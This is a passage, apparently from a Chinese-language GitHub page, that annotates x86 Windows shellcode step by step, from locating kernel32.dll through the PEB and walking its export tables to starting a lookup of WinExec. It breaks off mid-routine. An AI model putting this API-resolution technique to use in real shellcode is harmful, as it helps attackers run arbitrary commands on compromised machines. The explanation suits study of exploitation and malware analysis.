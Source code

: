 * 解读这段shellcode代码  
    * 获取 ```kernel32.dll``` 的地址，并压入栈中
    ```
    get_kernel32_address:
    xor eax, eax
    mov eax, [fs:eax+0x30] ; EAX = &PEB
    mov eax, [eax+0xC]     ; EAX = &LDR
    mov esi, [eax+0x1C]    ; ESI = 1st entry InitOrderList - ntdll.dll
    lodsd                  ; EAX = 2nd entry InitOrderList - kernelbase.dll
    xchg esi, eax
    lodsd                  ; EAX = 3rd entry InitOrderList - kernel32.dll
    mov eax, [eax+0x8]     ; EAX = &Kernel32.dll
    push eax
    ```
    * 获取 ```kernel32.dll``` 的导出表地址，存储在 EBX 中
    ```
    get_kernel32_export_table:
    mov ebx, [eax+0x3C] ; EBX = RVA NewEXEHeader
    add ebx, eax        ; EBX = &NewEXEHeader
    mov ebx, [ebx+0x78] ; EBX = RVA ExportTable
    add ebx, eax        ; EBX = &ExportTable
    ```
    * 根据导出表地址，获取导出名字表的地址，存储在 EDX 中
    ```
    get_export_name_table:
    mov edx, [ebx+0x20] ; EDX = RVA ExportNameTable
    add edx, eax        ; EDX = &ExportNameTable
    ```
    * 根据导出表地址，获取导出序号列表的地址，并压入栈中
    ```
    get_export_ordinal_table:
    mov ecx, [ebx+0x24] ; ECX = RVA ExportOrdinalTable
    add ecx, eax        ; ECX = &ExportOrdinalTable
    push ecx
    ```
    * 根据导出表地址，获取导出地址表的地址，并压入栈中
    ```
    get_export_addr_table:
    mov edi, [ebx+0x1C] ; EDI = RVA ExportAddrTable
    add edi, eax        ; EDI = &ExportAddrTable
    push edi
    ```
    * 将`WinExec`函数名字符串压入栈中
    ```
    WinExec_String:
    push 0x456E6957 ; EniW
    ```
    * 在导出名字表里查找`WinExec`函数名,找到后获取函数地址，并存储在 EBX 中
    ```
    counter_init:
    xor eax, eax    ; EAX = Counter
